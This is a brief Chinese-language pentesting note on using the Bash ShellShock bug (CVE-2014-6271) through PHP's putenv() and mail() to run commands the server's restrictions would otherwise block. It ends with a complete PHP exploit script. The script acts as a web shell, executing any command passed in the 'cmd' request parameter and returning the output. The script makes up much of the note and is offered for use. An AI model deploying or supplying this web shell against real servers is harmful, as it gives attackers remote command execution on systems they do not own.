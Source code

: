 ```yaml
---
title: "利用 ShellShock 绕过"
id: zhfly3472
---
```


## 利用 ShellShock 绕过

**1\. 前提条件**

目标OS存在Bash破壳（CVE-2014-6271）漏洞
PHP 5.*
linux
putenv()、mail()可用

**2\. 基本原理**

一般函数体内的代码不会被执行，但破壳漏洞会错误的将"{}"花括号外的命令进行执行
php里的某些函数(例如:mail()、imap_mail())能调用popen或其他能够派生bash子进程的函数，可以通过这些函数来触发破壳漏洞(CVE-2014-6271)执行命令。

**3\. exp**

```
<?php
   function shellshock($cmd) {
  $tmp = tempnam(".","data");
  putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
  mail("a@127.0.0.1","","","","-bv");
  $output = @file_get_contents($tmp);
  @unlink($tmp);
  if($output != "") return $output;
  else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?> 
```